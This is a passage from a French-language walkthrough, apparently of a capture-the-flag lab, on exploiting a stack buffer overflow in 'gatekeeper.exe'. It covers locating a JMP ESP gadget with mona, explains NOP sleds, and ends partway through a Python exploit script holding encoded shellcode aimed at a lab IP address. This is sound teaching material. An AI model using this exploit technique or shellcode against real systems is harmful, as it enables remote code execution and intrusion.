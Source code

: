L'objectif ici est de trouver un module sans ASLR & DEP activé et qui ne contient pas de mauvais caractères dans l'adresse mémoire.

`!mona jmp -r esp -m gatekeeper.exe`

On trouve deux pointeurs utilisable, et aucun ne contient de mauvais caractères !

* `0x080414c3 JMP ESP`
* `0x080416bf JMP ESP`

Maintenant qu'un `JMP ESP` a été trouvé, nous devons le convertir au format Little Endian et l'ajouter à notre exploit.

```py
buffer += "\xc3\x14\x04\x08"
```

#### Et s'il n'y a pas d'ASLR ni de DEP ?!

"Trouver l’adresse exacte du début du shellcode est assez fastidieux mais, comme nous sommes fainéants, nous allons ruser et nous faciliter le travail : sur un processeur Intel x86, l’instruction 0x90 (ou NOP pour « No OPeration ») est une instruction qui ne fait pour ainsi dire rien du tout et passe à l’instruction suivante. L’idée est de placer un certain nombre de cette instruction avant le shellcode. Ainsi, il nous suffit de « tomber » sur une de ces instructions pour « glisser » vers le shellcode. Ca nous facilitera la vie car on ne devra plus trouver le début exact du shellcode, sauter sur une de ces instructions 0x90 suffira."

Cette technique est appelée `NOPSLED` (Suite de NOP)

"En effet, cela va nous éviter de devoir chercher à l’octet près le début de notre shellcode. Nous avons juste besoin de sauter quelque part parmi les xxx NOP.Pour rappel, le NOP correspond à l’instruction 0x90 (sous Linux en tout cas), il faut donc trouver dans la mémoire une suite de 90 : c’est très probablement notre NOPSLED."


### Etape 6 : Exploit & loot !

On y est presque !

On remplace les "C" par notre shellcode et ajoute quelques NOP avant au cas ou.

```py
#!/usr/bin/python
import socket, sys

ip = '172.26.20.114'
port = 31337

shellcode = b""
shellcode += b"\xbe\xd6\x2b\x47\x01\xda\xd6\xd9\x74\x24\xf4\x5f\x29"
shellcode += b"\xc9\xb1\x52\x83\xef\xfc\x31\x77\x0e\x03\xa1\x25\xa5"
shellcode += b"\xf4\xb1\xd2\xab\xf7\x49\x23\xcc\x7e\xac\x12\xcc\xe5"
shellcode += b"\xa5\x05\xfc\x6e\xeb\xa9\x77\x22\x1f\x39\xf5\xeb\x10"
shellcode += b"\x8a\xb0\xcd\x1f\x0b\xe8\x2e\x3e\x8f\xf3\x62\xe0\xae"
shellcode += b"\x3b\x77\xe1\xf7\x26\x7a\xb3\xa0\x2d\x29\x23\xc4\x78"
shellcode += b"\xf2\xc8\x96\x6d\x72\x2d\x6e\x8f\x53\xe0\xe4\xd6\x73"
shellcode += b"\x03\x28\x63\x3a\x1b\x2d\x4e\xf4\x90\x85\x24\x07\x70"
shellcode += b"\xd4\xc5\xa4\xbd\xd8\x37\xb4\xfa\xdf\xa7\xc3\xf2\x23"
shellcode += b"\x55\xd4\xc1\x5e\x81\x51\xd1\xf9\x42\xc1\x3d\xfb\x87"
shellcode += b"\x94\xb6\xf7\x6c\xd2\x90\x1b\x72\x37\xab\x20\xff\xb6"
shellcode += b"\x7b\xa1\xbb\x9c\x5f\xe9\x18\xbc\xc6\x57\xce\xc1\x18"
shellcode += b"\x38\xaf\x67\x53\xd5\xa4\x15\x3e\xb2\x09\x14\xc0\x42"
shellcode += b"\x06\x2f\xb3\x70\x89\x9b\x5b\x39\x42\x02\x9c\x3e\x79"
shellcode += b"\xf2\x32\xc1\x82\x03\x1b\x06\xd6\x53\x33\xaf\x57\x38"
shellcode += b"\xc3\x50\x82\xef\x93\xfe\x7d\x50\x43\xbf\x2d\x38\x89"
shellcode += b"\x30\x11\x58\xb2\x9a\x3a\xf3\x49\x4d\x4f\x04\xab\x26"
shellcode += b"\x27\x06\x4b\x2c\x0b\x8f\xad\x24\x7b\xc6\x66\xd1\xe2"
shellcode += b"\x43\xfc\x40\xea\x59\x79\x42\x60\x6e\x7e\x0d\x81\x1b"
shellcode += b"\x6c\xfa\x61\x56\xce\xad\x7e\x4c\x66\x31\xec\x0b\x76"
```